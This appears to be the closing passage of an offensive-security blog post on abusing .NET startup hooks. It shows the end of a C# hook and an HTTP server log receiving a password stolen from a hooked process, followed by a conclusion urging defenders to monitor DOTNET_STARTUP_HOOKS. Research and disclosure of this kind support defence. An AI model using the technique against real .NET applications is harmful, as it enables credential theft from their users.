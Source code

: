 ```
        finally
        {
            Marshal.FreeBSTR(bstr);
        }
    }
}
```

```
daniel@DESKTOP-GB4VHTE:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.18.224.1 - - [02/Jan/2023 21:17:09] "GET /?pass=This%20is%20a%20secure%20password HTTP/1.1" 200 -
```

## Conclusion

.NET startup hooks are powerful and just a little bit scary. [Adam Chester](https://twitter.com/_xpn_) already highlighted the risk of the [COMPlus\_ETWEnabled](https://blog.xpnsec.com/hiding-your-dotnet-complus-etwenabled/) environment variable – if defenders can reliably monitor these across their infrastructure, DOTNET\_STARTUP\_HOOKS is certainly another one to watch out for.

### Published by:

[![Rasta Mouse](https://www.gravatar.com/avatar/2b44f5ca5458931c49e1fa57da6705c1?s=250&r=x&d=mp)](/author/rasta/ "Rasta Mouse")

Rasta Mouse © 2025

* [Sign up](#/portal/)

[Powered by Ghost](https://ghost.org/)